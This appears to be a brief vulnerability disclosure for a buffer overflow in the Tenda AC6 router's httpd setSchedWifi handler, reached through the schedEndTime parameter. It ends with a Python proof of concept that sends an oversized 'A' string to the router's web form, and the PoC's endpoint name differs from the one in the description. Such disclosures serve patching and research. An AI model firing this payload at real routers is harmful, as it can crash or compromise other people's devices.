

# buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/setSchedWifi via parameter schedEndTime

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:




get value from schedEndTime ,and set enable = schedWifiEnable = 0


as follow we set, get into line 74, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/openSchedWifi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'schedEndTime': payload, 'schedWifiEnable': 0})
``` 
